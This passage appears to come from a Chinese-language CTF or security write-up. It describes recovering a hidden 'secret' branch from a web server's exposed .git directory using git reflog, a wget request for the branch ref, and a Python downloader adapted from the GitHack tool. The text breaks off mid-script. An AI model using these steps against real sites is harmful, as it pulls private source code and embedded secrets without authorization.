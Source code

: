 只可以看到master分支的信息，所以我们需要

```
git reflog
```

可以看到一个checkout记录，看到其他的分支信息，比如存在一个分支名称为`secret`,我们需要去手动下载`secret`分支的head信息，保存到`.git/refs/heads/secret`中

```
wget http://example.com/.git/refs/heads/secret
```

我们可以直接复用`Githack`的`fixmissing`函数,我直接从中提取脚本`git branch.py`，不然每次都要修改代码挺麻烦的

```pyth
import os
import re
import threading
import requests
log = []


threadNumber = 50

def downloadFile(url, path):
    if url in log:
        print("[-] Downloaded!")
    else:
        log.append(url)
    index = path[::-1].find("/")
    folder = path[0:-index]
    try:
        print("[+] Make dir : %s" % (folder))
        os.makedirs(folder)
    except:
        print("[-] Folder already existed!")
    print("[!] Getting -> %s" % (url))
    response = requests.get(url)
    if response.status_code == 200:
        with open(path, "wb") as f:
            f.write(response.content)
            print("[+] Success!")
    else:
        print("[-] [%d]" % (response.status_code))

class myThread (threading.Thread):
    def __init__(self, imgSrc, directoryName):
        threading.Thread.__init__(self)
        self.imgSrc = imgSrc
        self.directoryName = directoryName

    def run(self):
        downloadFile(self.imgSrc, self.directoryName)

def get_sha1(content):
    result = re.findall(r"([a-fA-F0-9]{40})", content)
    return result

def fixmissing(baseurl, temppath):
    # get missing files
    os.system("cd ./%s ; git fsck > ../cache.dat 2>&1" % temppath)
    missing = []
    with open("./cache.dat", "r") as f:
        missing += get_sha1(f.read())

    length = len(missing)
```